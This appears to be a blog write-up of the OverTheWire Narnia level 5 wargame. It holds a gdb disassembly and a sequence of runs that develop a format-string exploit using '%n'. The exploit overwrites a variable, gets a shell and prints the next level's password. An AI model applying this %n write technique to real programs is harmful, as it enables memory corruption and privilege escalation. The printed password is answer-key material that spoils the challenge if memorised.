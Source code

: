 +++
title = "Over the wire - narnia05"
description = "Over the wire - narnia05"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-05"
project_url = "https://greyhat.dk/over-the-wire-narnia-05"
type = "post"
+++



(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x080484bd <+0>:	push   ebp
   0x080484be <+1>:	mov    ebp,esp
   0x080484c0 <+3>:	and    esp,0xfffffff0
   0x080484c3 <+6>:	sub    esp,0x60
   0x080484c6 <+9>:	mov    DWORD PTR [esp+0x5c],0x1
   0x080484ce <+17>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484d1 <+20>:	add    eax,0x4
   0x080484d4 <+23>:	mov    eax,DWORD PTR [eax]
   0x080484d6 <+25>:	mov    DWORD PTR [esp+0x8],eax
   0x080484da <+29>:	mov    DWORD PTR [esp+0x4],0x40
   0x080484e2 <+37>:	lea    eax,[esp+0x1c]
   0x080484e6 <+41>:	mov    DWORD PTR [esp],eax
   0x080484e9 <+44>:	call   0x80483b0 <snprintf@plt>
   0x080484ee <+49>:	mov    BYTE PTR [esp+0x5b],0x0
   0x080484f3 <+54>:	mov    DWORD PTR [esp],0x8048610
   0x080484fa <+61>:	call   0x8048350 <printf@plt>
   0x080484ff <+66>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048503 <+70>:	cmp    eax,0x1f4
   0x08048508 <+75>:	jne    0x8048522 <main+101>
   0x0804850a <+77>:	mov    DWORD PTR [esp],0x8048631
   0x08048511 <+84>:	call   0x8048360 <puts@plt>
   0x08048516 <+89>:	mov    DWORD PTR [esp],0x8048636
   0x0804851d <+96>:	call   0x8048370 <system@plt>
   0x08048522 <+101>:	mov    DWORD PTR [esp],0x8048640
   0x08048529 <+108>:	call   0x8048360 <puts@plt>
   0x0804852e <+113>:	lea    eax,[esp+0x1c]
   0x08048532 <+117>:	mov    DWORD PTR [esp],eax
   0x08048535 <+120>:	call   0x8048390 <strlen@plt>
   0x0804853a <+125>:	mov    DWORD PTR [esp+0x8],eax
   0x0804853e <+129>:	lea    eax,[esp+0x1c]
   0x08048542 <+133>:	mov    DWORD PTR [esp+0x4],eax
   0x08048546 <+137>:	mov    DWORD PTR [esp],0x8048661
   0x0804854d <+144>:	call   0x8048350 <printf@plt>
   0x08048552 <+149>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048556 <+153>:	lea    edx,[esp+0x5c]
   0x0804855a <+157>:	mov    DWORD PTR [esp+0x8],edx
   0x0804855e <+161>:	mov    DWORD PTR [esp+0x4],eax
   0x08048562 <+165>:	mov    DWORD PTR [esp],0x8048675
   0x08048569 <+172>:	call   0x8048350 <printf@plt>
   0x0804856e <+177>:	mov    eax,0x0
   0x08048573 <+182>:	leave
   0x08048574 <+183>:	ret
End of assembler dump.
(gdb)
(gdb) r AAAA%x%x%x%x%x
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia5 AAAA%x%x%x%x%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAf7eb85b6ffffffffffffd68ef7e30bf841414141] (44)
i = 1 (0xffffd6ac)
[Inferior 1 (process 18256) exited normally]
(gdb) r $(python -c 'print "AAAA\xbc\xd6\xff\xff%x%x%x%x%x"')
Starting program: /games/narnia/narnia5 $(python -c 'print "AAAA\xbc\xd6\xff\xff%x%x%x%x%x"')
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA����f7eb85b6ffffffffffffd68ef7e30bf841414141] (48)
i = 1 (0xffffd6ac)
[Inferior 1 (process 18739) exited normally]
(gdb) r $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%x"')
Starting program: /games/narnia/narnia5 $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%x"')
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA����f7eb85b6ffffffffffffd68ef7e30bf841414141] (48)
i = 1 (0xffffd6ac)
[Inferior 1 (process 19175) exited normally]
(gdb) r $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%500d%n"')
Starting program: /games/narnia/narnia5 $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%500d%n"')
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA����f7eb85b6ffffffffffffd68ef7e30bf8                       ] (63)
i = 540 (0xffffd6ac)
[Inferior 1 (process 19434) exited normally]
(gdb) r $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%460d%n"')
Starting program: /games/narnia/narnia5 $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%460d%n"')
Change i's value from 1 -> 500. GOOD
$
No way...let me give you a hint!
buffer : [AAAA����f7eb85b6ffffffffffffd68ef7e30bf8                       ] (63)
i = 500 (0xffffd6ac)
[Inferior 1 (process 19616) exited normally]
(gdb) quit
narnia5@melinda:/narnia$ /games/narnia/narnia5 $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%460d%n"')
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA����f7eb85b6ffffffffffffd67ef7e30bf8                       ] (63)
i = 1 (0xffffd69c)
Segmentation fault
narnia5@melinda:/narnia$ /narnia/narnia5 $(python -c 'print "AAAA\xac\xd6\xff\xff%x%x%x%x%460d%n"')
Change i's value from 1 -> 500. GOOD
$ cat /etc/narnia_pass/narnia6
neezocaeng
